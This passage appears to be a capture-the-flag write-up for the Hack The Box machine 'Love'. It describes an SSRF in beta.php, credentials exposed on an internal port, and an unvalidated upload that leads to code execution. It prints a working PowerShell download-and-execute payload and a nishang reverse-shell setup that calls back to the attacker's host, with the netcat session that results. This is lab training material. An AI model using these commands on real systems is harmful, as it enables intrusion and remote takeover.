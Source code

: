 Enumerated `/beta.php` and discovered a **Server Side Request Forgery** vulnerability:
![Pasted image 20210505165044.png]({{page.screenshots}}Pasted image 20210505165044.png)


## Foothold
`beta.php` is vulnerable to **SSRF** and **allows to enumerate internal files**. Abusing this issue **it is possible to reach the web server on port 5000** whose access was previously forbidden.
![Pasted image 20210505170835.png]({{page.screenshots}}Pasted image 20210505170835.png)

The web application running on port 5000 **disclosed some credentials** that can be **used to access the admin 'Voting System' panel** on port 80:
![Pasted image 20210505171144.png]({{page.screenshots}}Pasted image 20210505171144.png)

The **web application then did not validate uploaded file**, allowing to upload a malicious file and obtain remote code execution:
![Pasted image 20210505172142.png]({{page.screenshots}}Pasted image 20210505172142.png)
![Pasted image 20210505172202.png]({{page.screenshots}}Pasted image 20210505172202.png)
![Pasted image 20210505172232.png]({{page.screenshots}}Pasted image 20210505172232.png)

At this point it was possible to host a powershell reverse shell from nishang
```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ cp /opt/post-expl/windows/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1

┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.105 -Port 10099' >> revshell.ps1

┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

To download and execute the reverse shell:
```txt
http://10.129.128.110/images/ws.php?cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.105/revshell.ps1')"
```
<br>
```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.105] from (UNKNOWN) [10.129.128.110] 64516
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\omrs\images>whoami
love\phoebe
```

